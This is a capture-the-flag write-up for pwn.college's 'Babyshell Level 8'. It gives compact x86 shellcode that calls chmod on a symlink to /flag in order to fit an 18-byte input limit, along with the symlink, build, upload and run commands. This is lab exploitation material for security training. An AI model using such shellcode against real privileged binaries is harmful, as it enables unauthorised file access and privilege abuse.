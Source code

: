 # Babyshell Level 8
This challenge was relatively easy, just have to think outside the box a little.

The shellcode is reading 0x12 bytes of input this means we can't send a shellcode bigger than 0x12 bytes to our program.

The best option to my eyes was to call a chmod on the file directly, but you can't call chmod on /flag with less than 0x12 bytes, so for this reason i made a symlink to the binary in our home directory ("file named: shell8") and a symlink to the flag in the home directory ("file named : a").

```
$ ln -sf /challenge/babyshell_level8 ~/shell8
$ ln -sf /flag ~/a
```

Then with the following shellcode you should be able to chmod the symlink to the flag file.

```x86asm
.global _start
_start:
.intel_syntax noprefix
	push 0x61 ; "a" character
	push rsp 
	pop rdi
	mov sil, 4
	mov al, 90
	syscall
```

```
$ gcc -nostdlib -static -o shellcode
$ objcopy --dump-section .text=shell shellcode
$ scp shell hacker@dojo.pwn.college:/tmp
$ ssh hacker@dojo.pwn.college
$ cd ~
$ ./shell8 </tmp/shell
$ cat a
pwn.college{REDACTED}
```
